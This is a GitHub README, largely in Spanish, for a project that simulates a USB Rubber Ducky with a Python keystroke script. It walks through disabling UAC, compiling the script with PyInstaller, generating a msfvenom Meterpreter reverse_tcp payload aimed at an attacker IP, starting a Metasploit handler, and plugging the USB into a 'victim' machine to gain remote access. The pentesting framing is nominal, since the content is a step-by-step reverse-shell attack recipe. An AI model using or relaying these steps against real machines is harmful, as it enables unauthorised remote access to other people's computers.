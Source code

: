 # Rubber-Ducky-Simulation
In this project, we simulate a Rubber Ducky using a standard USB drive with a Python script and autorun functionality. This allows us to replicate its keystroke execution capabilities for automated penetration testing. The project emphasizes scripting skills and highlights the security risks of USB devices in cybersecurity.

## Instrucciones de Uso

Primero, descargaremos los archivos del repositorio y los copiaremos en cualquier USB. Luego, editaremos los archivos según nuestras necesidades, ajustando los tiempos que consideremos adecuados para la ejecución de la secuencia de desactivación del archivo `teclas.py`. 

Es importante tener en cuenta que debemos desactivar el Control de Cuentas de Usuario (UAC) en el sistema Windows de la siguiente manera:

1. Abrir el **Panel de control**.
2. Ir a **Cuentas de usuario**.
3. Seleccionar **Cambiar configuración de Control de cuentas de usuario**.
4. Mover el control deslizante a **Nunca notificar**.
5. Hacer clic en **Aceptar** y reiniciar el sistema si es necesario.

Esta configuración permitirá que el archivo `teclas.py` se ejecute sin restricciones de permisos.

<div align="center">
  <img src="https://github.com/user-attachments/assets/59126bcb-c0c4-48ff-81c1-20f607277a46" alt="Description of image">
</div>

## Instrucciones de Uso (Continuación)

Una vez desactivadas las restricciones de UAC y editado el código con los tiempos a nuestra conveniencia, procederemos a convertir el código en un ejecutable utilizando **PyInstaller**. 

# Conversión de teclas.py a un archivo .exe

Este proyecto incluye el archivo `teclas.py`, el cual puedes convertir en un ejecutable (.exe) utilizando `PyInstaller`. Sigue los pasos a continuación para realizar la conversión:

## Requisitos
1. Asegúrate de tener instalado Python 3 en tu sistema.
2. Instala PyInstaller ejecutando el siguiente comando en tu terminal:

   ```bash
   pip install pyinstaller
Instrucciones
Descarga o clona este repositorio para obtener el archivo teclas.py.

Abre un terminal en el directorio donde se encuentra el archivo teclas.py. Si estás utilizando Visual Studio Code, puedes abrir el terminal integrado con Ctrl + `.

Ejecuta el siguiente comando para convertir el script en un archivo ejecutable (.exe) y evitar que se abra una consola interactiva:

```
pyinstaller --onefile --noconsole teclas.py
```
Resultado
Una vez que el comando haya terminado de ejecutarse, encontrarás el archivo ejecutable en la carpeta dist que se crea automáticamente en el directorio del proyecto.
El archivo ejecutable estará listo para ejecutarse en sistemas operativos Windows, Procederemos a copiar este ejecutable a nuestra USB de Atacante.

Luego, en nuestra máquina atacante, crearemos el payload con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPAtacante LPORT=PuertoAtacante -f exe -o shell.exe
```
Una vez generado, copiaremos el payload en la USB

Si deseamos que la USB se ejecute automáticamente en el sistema de la víctima, es necesario que la máquina tenga instalado apo_usb_autorun debido a las restricciones de windows. Si no es así, tendremos que hacer doble clic manualmente en el archivo ejecutable teclas.exe.

Después de esto, nos pondremos en escucha en nuestra IP y puerto asignados en el payload con el siguiente comando:

```bash
msfconsole -e use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IPAtacante
set LPORT PuertoAtacante
run
```
Finalmente, insertaremos la USB en la máquina de la víctima y esperaremos el acceso remoto.


Recuerda reemplazar `IPAtacante` y `PuertoAtacante` con los valores correspondientes. También 

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">


Author: xrl3y
